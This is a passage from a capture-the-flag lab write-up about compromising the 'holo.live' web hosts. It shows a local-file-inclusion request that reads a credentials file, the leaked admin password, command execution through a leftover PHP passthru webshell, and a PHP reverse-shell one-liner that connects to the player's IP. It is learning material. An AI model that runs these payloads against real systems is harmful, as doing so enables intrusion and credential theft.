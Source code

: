     ...
    <img src="img.php?file=images/amelia.jpg" alt="Image" class="img-responsive">
    ...
The application is vulnerable to LFI, and we can exploit to get some sensitive data. Since we have already found a potential sensitive file that could disclosure important information, I tried to get this file:

    http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt

The file is downloaded as img.php and inside we can filnd some credentials.

[//]: # (admin:DBManagerLogin!)

I used the credentials to access the admin app. Once logged in we can see that there is nothing we can do in pratical, I mean no way to upload o inject a webshell. Again inspecting the souce of the page I found an interesting comment:

    <!--   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->

This a PHP insturction, interesting enough has been commented using HTML, so It is rendered on the client side, indeed to use server side PHP comment. Let's try to check if there is already a webshell installed for us :):

    http://admin.holo.live/dashboard.php?cmd=whoami

The command is executed and the output returned to us:

     <h4 class="card-title"> www-data
     Visitors today</h4>

We can get the OS version as well:

    http://admin.holo.live/dashboard.php?cmd=cat%20/etc/*rel*

    <h4 class="card-title"> DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic
    DISTRIB_DESCRIPTION="Ubuntu 18.04.5 LTS"
    NAME="Ubuntu"
    VERSION="18.04.5 LTS (Bionic Beaver)"
    ID=ubuntu
    ...

Futher enumerations reveals that python is not installed, indeed PHP is 7.2.24, then I tried a PHP reverse shell:

    http://admin.holo.live/dashboard.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.50.74.35%22%2C1234%29%3Bexec%28%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

For sake of learning this is the decoded command used:

    php -r '$sock=fsockopen("10.50.74.35",1234);exec("/bin/bash -i <&3 >&3 2>&3");'

The IP refers to my tun0 interface, of course.

Once I got a shell, inspecting network configuration:

    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.100  netmask 255.255.255.0


[//]: # (Nothingtoworry!)